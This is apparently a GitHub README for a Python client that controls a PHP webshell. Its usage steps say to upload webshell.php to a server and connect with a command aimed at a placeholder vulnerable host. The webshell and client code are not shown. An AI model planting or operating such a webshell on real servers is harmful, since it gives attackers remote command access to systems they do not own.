 # Wefir's webshell
A custom webshell client written in python.
<br>
Inspired by <a href="https://github.com/flozz/p0wny-shell">P0wny-shell</a> and <a href="https://github.com/epinna/weevely3">weevely</a>.
## Usage
#### 1.Upload webshell.php to the server
#### 2.Connect to the webshell with the command:
```
python3 client.py -u [https://vulnerable.com/uploads/webshell.php]
```

